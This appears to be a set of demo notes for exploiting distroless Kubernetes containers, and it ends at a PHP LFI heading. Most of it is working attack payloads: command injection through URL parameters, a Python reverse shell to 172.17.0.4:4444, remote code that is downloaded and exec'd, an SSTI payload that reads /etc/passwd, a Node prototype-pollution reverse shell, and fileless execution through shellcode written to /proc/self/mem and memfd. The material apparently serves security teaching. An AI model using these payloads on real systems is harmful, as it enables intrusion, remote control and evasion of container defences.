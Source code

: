 # Demo 0: What is distroless
## No sh
kubectl exec -it dless-express-pp-pod -- sh

## No binaries
kubectl exec -it dless-flask-ssti-pod -- sh
ls
command -v openssl #https://www.form3.tech/engineering/content/exploiting-distroless-images












# Demo 1: Python RCE
kubectl port-forward dless-flask-ssti-pod 3002:8080

## No binaries
http://localhost:3001/?cmd=ls
http://localhost:3001/?cmd=whoami
http://localhost:3001/?cmd=dd
http://localhost:3001/?cmd=which sh

## Show sh builtins
http://127.0.0.1:3001/?cmd=while read -r line; do echo $line; done</etc/passwd
http://localhost:3001/?cmd=command -v python

## Run using python
http://127.0.0.1:3001/?cmd=python -c "exec('import platform\nprint(platform.uname())')"

## Get reverse shell

http://127.0.0.1:3001/?cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.17.0.4",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/usr/bin/python","-i"]);'

## Execute binary using syscall
wget https://storage.googleapis.com/kubernetes-release/release/v1.25.3/bin/linux/arm64/kubectl
python3 fee.py kubectl > /tmp/kubectl.py
python3 /tmp/kubectl.py

### Fix code

```python
# imports ...
pid = os.fork()
if pid == 0: #pid==0 represents the child process
# Rest of the payload inside this if
```

### Download & execute ls.py in victim
```python
from urllib import request
kubectl = request.urlopen("http://172.17.0.4:8000/kubectl.py").read()
exec(kubectl)
```


# Demo 1.5: Python SSTI
kubectl port-forward dless-flask-ssti-pod 3002:1337

## If no sh, and nor RCE but SSTI, this is still possible with raw python
http://127.0.0.1:3002/?name={{(1).__class__.__base__.__subclasses__()[216]()._module.__builtins__["open"]("/etc/passwd").read()}}










# Demo 2: Node PP
kubectl port-forward dless-express-pp-pod 3000:3000

## Reverse-shell
http://127.0.0.1:3000/?exec=1&data={"__proto__": {"NODE_OPTIONS": "--require /proc/self/environ", "env": { "EVIL":"console.log(require(\"child_process\").fork(\"-e\",[\"net=require(`net`);cp=require(`child_process`);sh=cp.spawn(`/proc/self/exe`, [`-i`], {detached: true});client = new net.Socket();client.connect(4444, `172.17.0.4`, function(){client.pipe(sh.stdin);sh.stdout.pipe(client);sh.stderr.pipe(client);});//\"],{\"env\":{\"NODE_OPTIONS\":\"\"}}).toString())//"}}}

## Info
```js
os = require("os")
os.tmpdir()
os.platform();
os.release();
os.arch();
os.networkInterfaces()
```

## List folder
```js
path = require('path');
fs = require('fs');

function ls(path){
    fs.readdir(path, { withFileTypes: true }, function (err, files) {
        if (err) {
            return console.log('Unable to scan directory: ' + err);
        } 
        files.forEach(function (file) {
            console.log(file); 
        });
    });
}

ls("/")
```

## In memory execution

```js
// Imports
fs = require('fs');
path = require('path');
http = require('http');
https = require('https');
const { fork } = require('child_process');

// Code to execute a fork process taht will execute a shellcode with memfd_create
node_subp1_path = "/dev/shm/subp1.js"

// memfd_create shellcode from https://github.com/arget13/DDexec (this is the one for ARM)
var node_subp1 = `
fs = require('fs');
var data = fs.readFileSync('/proc/self/syscall', {encoding:'utf8', flag:'r'});
var mem_addr = data.split(" ")[8].trim();
var dec_offset = Number(mem_addr);
var shellcode_b64 = "gCiI0qCIqPLgDx/44AMAkSEAAcroIoDSAQAA1MgFgNIBAADUiBWA0gEAANRhAoDSKBCA0gEAANQ=";
var shellcode = Buffer.from(shellcode_b64, 'base64');
fs.open('/proc/self/mem', 'a', function(err, fd) {
    fs.write(fd, shellcode, 0, shellcode.length, dec_offset, function(err,writtenbytes){});
})
`

fs.writeFileSync(node_subp1_path, node_subp1);

// Check file was created (this step can be skipped)
function ls(path){
    fs.readdir(path, { withFileTypes: true }, function (err, files) {
        if (err) {
            return console.log('Unable to scan directory: ' + err);
        } 
        files.forEach(function (file) {
            console.log(file); 
        });
    });
}

ls("/dev/shm")

// Make a subprocess execute the memfd_create shellcode
var proc = fork(node_subp1_path, [], {"execPath": "/proc/self/exe", "argv0": "nodejs"});

console.log(`Check in /proc/${proc.pid}/fd (memfd is probably the biggest number)`);

// Find the memfd fd
function get_memfd_num(path){
    fs.readdir(path, function (err, files) {
        if (err) {
            console.log('Unable to scan directory: ' + err);
        } 
        files.forEach(function (file) {
            fs.readlink(path + "/" + file, (err, target) => {
                if (!err){
                    if (target.includes("/memfd:"))
                        console.log(path + "/" + file + " -> " + target)
                }
            });
        });
    });
}
get_memfd_num(`/proc/${proc.pid}/fd`);

// Download the binary to execute in the fd
var download = function(url, dest) {
  var file = fs.createWriteStream(dest);
  var request = https.get(url, function(response) {
    response.pipe(file);
    file.on('finish', function() {
        console.log("closed")
        file.close();
    });
  });
};

// CHANGE THE FD: /proc/80/fd/20
download("https://storage.googleapis.com/kubernetes-release/release/v1.25.3/bin/linux/arm64/kubectl", "/proc/80/fd/20")

// Execute the fd directly from the exec syscall
fork("", [], {"execPath": "/proc/80/fd/20", "execArgv": []})
```



# DEMO 3: PHP LFI